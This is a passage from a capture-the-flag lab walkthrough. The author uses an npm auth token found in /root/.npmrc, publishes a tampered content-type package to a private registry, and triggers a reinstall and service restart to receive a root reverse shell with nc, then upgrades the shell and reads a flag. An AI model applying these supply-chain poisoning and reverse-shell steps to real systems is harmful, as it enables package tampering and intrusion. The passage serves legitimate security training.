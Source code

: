 Now, we configure `npm` to use the auth token we discovered in the `/root/.npmrc` file.

```console
$ npm config set //172.16.1.2:4873/:_authToken OWI1MmY3MzA0MDEyZmVkYTIwMzdjMTZmZDhjZjA1ZmQ6OGJiNjQxM2Y0NDYzZDZiMGRiMWI2NGY2ZjhkOWU2OWJlNTk0M2VkNzg5OTU5NDM2NjkyMDdm
```

After that, we can publish the modified version to the registry.

```console
$ proxychains -q npm publish --registry=http://172.16.1.2:4873
npm notice
npm notice 📦  content-type@1.0.6
npm notice === Tarball Contents ===
npm notice 523B  HISTORY.md
npm notice 1.1kB LICENSE
npm notice 2.8kB README.md
npm notice 5.1kB index.js
npm notice 1.1kB package.json
npm notice === Tarball Details ===
npm notice name:          content-type
npm notice version:       1.0.6
npm notice filename:      content-type-1.0.6.tgz
npm notice package size:  4.0 kB
npm notice unpacked size: 10.6 kB
npm notice shasum:        1c235be505db3fb15a3866374511ec64504b7ea7
npm notice integrity:     sha512-vT7I8DOsL6Was[...]+zrVzn0Ti3mOg==
npm notice total files:   5
npm notice
npm notice Publishing to http://172.16.1.2:4873/ with tag latest and default access
+ content-type@1.0.6
```

Next, using the `admint` server at `http://172.16.1.2:3000/`, we can first reinstall the **Node.js** modules for the `admdev` server by making a request to `/reinstall-node-modules` as such:

![Web 3000 Reinstall Node Modules](web_3000_reinstall_node_modules.webp){: width="1000" height="500"}

We then make a request to the `/restart-service` endpoint to restart the `admdev` server.

![Web 3000 Restart Service](web_3000_restart_service.webp){: width="1000" height="500"}

With this, we get a shell as `root` inside the `172.16.1.2` container and can read the second flag at `/flag-1c12bcbb1fee96a928d4f89550dcb60d.txt`.

```console
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.11.72.22] from (UNKNOWN) [10.10.165.202] 48674
/app/admdev # python3 -c 'import pty;pty.spawn("/bin/bash");'
6238c1cc6eec:/app/admdev# export TERM=xterm
6238c1cc6eec:/app/admdev# ^Z
zsh: suspended  nc -lvnp 443

$ stty raw -echo; fg

6238c1cc6eec:/app/admdev# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
6238c1cc6eec:/app/admdev# wc -c /flag-1c12bcbb1fee96a928d4f89550dcb60d.txt
38 /flag-1c12bcbb1fee96a928d4f89550dcb60d.txt
```
